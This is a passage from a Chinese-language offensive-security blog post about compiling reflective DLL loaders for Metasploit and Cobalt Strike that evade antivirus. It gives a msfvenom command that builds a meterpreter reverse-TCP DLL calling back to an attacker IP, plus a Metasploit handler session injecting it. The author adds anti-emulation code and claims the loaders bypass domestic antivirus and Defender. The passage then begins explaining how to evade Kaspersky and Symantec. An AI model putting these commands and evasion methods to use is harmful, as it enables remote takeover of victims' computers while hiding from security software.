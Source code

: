 ​	我们可以把MSF的和CS的分别编译一个Loader，我对代码进行了简单的修改，把IP以及端口写成了获取参数，删除了几行代码，以及额外添加了一些反仿真的代码。下面介绍两个的用法：

#### MSF

生成一个DLL：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.43.130 LPORT=8899 -f dll -o ./a.dll
```

设置监听、发射DLL：

```bash
msf5 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.43.130 -P 8899
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.43.130:8899 
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/patchupdllinject/reverse_tcp
payload => windows/patchupdllinject/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.43.130
lhost => 192.168.43.130
msf5 exploit(multi/handler) > set lport 8080
lport => 8080
msf5 exploit(multi/handler) > set dll a.dll
dll => a.dll
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.43.130:8080 
```

#### CS

​	上线CS使用的DLL我是直接改的RDI项目中的DLL模板，写CS的shellcode进去简单加载就可以。然后用我们我们自己的发射器发射DLL就可以。



#### 在目前的基础上VT测试：

![1](/Users/ayaozpy/FreeKIllScript/shellcode/ReflectDLLBasedMemoryModule/1.PNG)

​	其实恶意代码不在这程序里，测这个意义也不大，更多要考虑的还是行为，因为反射DLL还是很敏感的。

​	另外想说一下，其实测这种沙盒在静态过了的情况下，加一些anti sandbox的代码就跑不起来了，意义不大，有的在沙盒可以乱过，但是真实环境是不行的，所以还是直接装一个对应的AV去测试好一点。

​	不过用这种方式上线，Bypass国内的AV还是相当好用的，Defender也能乱过，不过对于真实环境的卡巴斯基那一类是不吃这一套的。

​	**文章最后会提供这两个版本的Loader，免杀效果已经能满足绝大部分使用。**

### 0x05 进一步完善免杀效果

既然都写到这了，那么就进一步说说在这个基础上，该怎么在行为上bypass卡巴、赛门这一类的AV。

​	首先，我们可以去想，我们用这种方式去加载一个MessageBox会拦截吗？答案肯定是否。
